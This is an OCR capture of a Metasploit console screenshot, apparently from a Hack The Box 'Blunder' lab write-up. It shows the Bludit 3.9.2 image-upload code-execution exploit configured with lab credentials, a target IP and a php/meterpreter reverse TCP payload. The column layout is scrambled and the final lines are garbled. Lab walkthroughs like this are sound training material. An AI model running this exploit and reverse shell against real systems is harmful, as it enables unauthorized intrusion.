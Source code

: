 ![](Maszyny/Linux/Blunder/Pasted%20image%2020210913211154.png)

msf6 exploit(linux/http/bludit_upload_images_exec) > options
Module options (exploit/linux/http/bludit_upload_images_exec):
Name
Current Setting Required
Description
BLUDITPASS RolandDeschain
BLUDITUSER fergus
Proxies
RHOSTS 10.10.10.191
yes
yes
no
yes
The password for Bludit
The username for Bludit
A proxy chain of format type: host: port[, type: host: port][ ... ]
The target host(s), range CIDR identifier, or hosts file with syntax 'fil
e:<path>'
The target port (TCP)
Negotiate SSL/TLS for outgoing connections
The base path for Bludit
HTTP server virtual host
RPORT
SSL
TARGETURI
VHOST
80
false
/
yes
no
yes
no
Payload options (php/meterpreter/reverse_tcp):
Name Current Setting Required Description
LHOST tuno
yes
The listen address (an interface may be specified)
LPORT 4444
yes
The listen port
Exploit target:
Id
Name
0
Bludit v3.9.2
msf6 exploit(linux/http/bludit_upload_images_exec) > al
UTD
Cud
ubu
